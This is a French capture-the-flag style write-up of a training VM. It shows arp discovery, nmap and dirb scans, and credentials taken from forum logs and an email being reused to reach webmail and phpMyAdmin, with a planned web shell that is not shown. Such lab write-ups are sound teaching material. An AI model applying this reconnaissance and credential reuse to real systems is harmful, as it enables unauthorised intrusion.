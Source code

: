 # WRITEUP1

Après installation et lancement de la VM, on nous demande un mot de passe et l'adresse ip de la machine n'est pas indiqué.
On cherche a scanner un port ouvert part notre vm, pour cela, on configure le réseau de notre vm (sur VM box) en accès par pont.
On cherche à trouver une potentiel adresse ip créé par la VM  :

```bash
λ arp -a

Interface : 192.168.99.1 --- 0x6
  Adresse Internet      Adresse physique      Type
  192.168.99.255        ff-ff-ff-ff-ff-ff     statique
  ....

Interface : 192.168.1.26 --- 0x8
  Adresse Internet      Adresse physique      Type
  192.168.1.1           6c-ba-b8-be-0a-20     dynamique
  192.168.1.10          20-9a-7d-c0-45-d5     dynamique
  192.168.1.11          78-dd-12-93-0b-02     dynamique
  192.168.1.12          ec-b5-fa-31-6f-1f     dynamique
  192.168.1.13          48-ba-4e-c5-ce-7e     dynamique
  192.168.1.14          48-d6-d5-71-33-6d     dynamique
  192.168.1.15          42-e5-79-05-cc-33     dynamique
  192.168.1.16          84-b8-b8-04-7f-fb     dynamique
  192.168.1.17          e0-ac-cb-33-5b-bf     dynamique
  192.168.1.22          08-00-27-99-d9-06     dynamique
  224.0.0.250           01-00-5e-00-00-fa     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  224.0.1.60            01-00-5e-00-01-3c     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
  239.255.255.251       01-00-5e-7f-ff-fb     statique
  ...

```

On peut également trouver l'adrese ip directement dans les configs du routeur.

On cherche maintenant a tester les différentes adresses de type `dynamique` avec la commande ping.
Plusieurs adresses répondes, on peut les essayer une part une avec `nmap` :

```bash
λ nmap 192.168.1.22 
Nmap scan report for IP (IP)
Host is up (0.0055s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s
Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
```

L'adresse `192.168.1.22` dispose d'un site web qui nous affiche une page avec ecrit `HACK ME`. Après différents tests et quelques recherche on trouve différents moyen de découvrir des fails et d'autres pages accessibles.
Nous avons utilisez le `web scanner` `Arachni` . Une alternative plus light pour Arachni est le package `dirb` pour linux.


Nous avons travailler avec l'os `Kali` sur `wsl` a partir de maintenant car celui-ci inclut la plupart des outils de `Pen Testing` dont nous aurons besoin par la suite .

```bash
└─$ dirb https://192.168.1.22/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Sep  8 13:21:51 2021
URL_BASE: https://192.168.1.22/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.22/ ----
+ https://192.168.1.22/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.1.22/forum/
==> DIRECTORY: https://192.168.1.22/phpmyadmin/
+ https://192.168.1.22/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.1.22/webmail/
```

Grace a ces `web scanner` on identifie de nouvelles pages accessibles : `/forum`, `/phpmyadmin`, `/webmail`.
Dans le post `Probleme login?` du forum, on peut voir des tentatives de connections avec différents nom d'user et ce qui ressemble a un mot de passe :

```bash
Oct 5 08:45:29 BornToSecHackMe sshd\[7547\]: Failed password for invalid user !q\\\]Ej?\*5K5cy\*AJ from 161.202.39.38 port 57764 ssh2  
Oct 5 08:45:29 BornToSecHackMe sshd\[7547\]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail \[preauth\]  
Oct 5 08:46:01 BornToSecHackMe CRON\[7549\]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

On reussi a se logger avec le nom d'user `lmezard` et le mot de passe `!q\\\]Ej?\*5K5cy\*AJ` au forum. Sur le profil de l'utilisateur on obtien l'adresse email de l'user : `laurie@borntosec.net`. On essaye de se logger sur `http://192.168.1.22/webmail` avec l'addresse email et le précédent mot de passe. On se connecte.
Un des emails de l'utilisateur nous donne un accès à la page `phpmyadmin` :  

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Maintenant que l'on a un accès root à la db SQL, on cherche a faire une exploit appeler `web shell`. Grâce a `dirb` on peut obtenir une liste des dossiers utilisé par le site:
`
```bash
└─$ dirb https://192.168.1.22/forum/

...

==> DIRECTORY: https://192.168.1.22/forum/js/
==> DIRECTORY: https://192.168.1.22/forum/lang/
==> DIRECTORY: https://192.168.1.22/forum/modules/
==> DIRECTORY: https://192.168.1.22/forum/templates_c/
==> DIRECTORY: https://192.168.1.22/forum/themes/
==> DIRECTORY: https://192.168.1.22/forum/update/

└─$ dirb https://192.168.1.22/webmail/

...

==> DIRECTORY: https://192.168.1.22/webmail/plugins/
==> DIRECTORY: https://192.168.1.22/webmail/src/
==> DIRECTORY: https://192.168.1.22/webmail/themes/
```